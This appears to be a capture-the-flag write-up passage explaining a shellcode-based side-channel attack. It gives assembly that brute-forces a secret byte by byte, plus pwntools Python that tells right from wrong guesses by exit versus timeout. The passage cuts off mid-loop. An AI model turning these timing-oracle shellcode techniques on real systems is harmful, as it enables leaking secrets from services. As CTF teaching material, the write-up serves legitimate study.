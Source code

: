     exploit: move the first 8 bytes to `$rax`
    ```assembly!
    mov r10, r13
    add r10, 0x2db7
    mov rax, [r10]
    ```
    ![](https://imgur.com/OxBoyoK.png)
    * Note that, if you'd like to move next 8 bytes to `$rax`, rewrite `[r10]` to `[r10+0x8]`
2. Compare the single char by brute force
If the result of comparison is correct, the system will call `sys_exit` with `error_code=0`, otherwise, access to infinity loop.
We start from `0x20` on ascii table and end at `0x80`
Especially, when the comparison is correct, we have to shift `$rax` with 8 bits and start to compare next single char
    ```assembly!
        mov cl, ''' + str(guess) + '''
        shr rax, ''' + str(8*shift_count) + '''
    Compare:
        cmp al, cl
        je the_same
    infinity1:
        jmp infinity1
    the_same:
        mov rax, 0x3c
        mov rdi, 0
        syscall
    ```
    ![](https://upload.wikimedia.org/wikipedia/commons/1/1b/ASCII-Table-wide.svg)

3. Send the shellcode to `addr` global variable
The trickiest things is you must add `\x00` at the end of received  strings and the reason is for the control flow next.
    ```python!
    r.sendafter(b"code\n\x00", shellcode)
    ```
4. How to know the single char in pwntool side?
If compare correct, the program will exit directly and pwntools will trigger timeout function and do the exception, at the same time, we can clearly aware of the what is the current single char is, otherwise, the guess will increase and do the next comparison.
    ```python!
    try :
        # If compare not correct, guess++ and access to infinity loop
        r.recv(timeout=0.2)
        print('not the same')
        guess += 1
    except:
        # If compare correct, pwntool will break out
        print('the same')
        break
    r.close()
    ```
5. Repeat
`shift_count` can not over 7 is because the biggest size that `$rax` can store is 8 bytes
    ```python!
    flag = ''
    shift_count = 0
    while shift_count < 8:
        guess = 0x20
        while guess < 0x80 :